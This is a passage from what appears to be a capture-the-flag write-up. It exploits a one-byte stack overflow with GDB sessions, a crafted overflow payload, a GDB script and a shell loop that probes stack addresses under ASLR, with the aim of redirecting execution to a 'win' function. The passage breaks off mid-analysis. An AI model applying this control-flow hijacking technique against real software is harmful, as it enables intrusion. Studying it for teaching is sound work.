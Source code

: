 Recall that RET will pop the stack into the instruction pointer (literally `pop eip`) and then try to execute any instructions at that location. However, since we have indirectly manipulated ESP to an arbitrary value (0x45 - 0x4 = 0x41), the program may jump to an arbitrary location in memory. Again, let's confirm this:

```
(gdb) ni
0x50000000 in ?? ()
(gdb) ni

Program received signal SIGSEGV, Segmentation fault.
0x50000000 in ?? ()
```

If we controlled the stack correctly, this would actually try to execute *0x41414141*, the "AAAA" sequence from our payload. If we can manipulate the stack to do this, we should also be able to execute the location of *win*. 

Let's see what we *can* do with the stack.

# Controlling the stack

Revisit the stack addresses and data at *main*+93, right after we set the overflow:

```
(gdb) x/8wx $ebp-0x18
0xffffd450:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffd460:	0xffffd445	0xf7e1dff4	0x00000000	0xf7c237c5
```

Observe the following:

- ESP is eventually set to *0xffffd445* - 4
- However, our target address is *0xffffd450*

In hindsight, if we had set *0x50* instead of *0x45* ("E") as the overflow byte, *ESP* would have jumped to our target. Of course, ASLR will make it impossible to predict exactly which address in the stack we will need to target on any execution. However, we *do* have control over that one byte.

To see what exactly the stack is doing, let's write a simple GDB script:

```
set disable-randomization off
set pagination off
b *(main+93)
run < <(echo 'AAAABBBBCCCCDDDDE')
echo [Analyze EBP-0x18 ...]\n
x/1i $pc
x/8wx $ebp-0x18
continue
quit
```

Then run it in a loop.

```
$ for i in {1..5}; do gdb -x onebyte.gdb ~/onebyte | grep 0x41414141; done
0xffa7c880:	...
0xffe3a0e0:	...
0xff9c72b0:	...
0xffa12d80:	...
0xffb26a30:	...
```

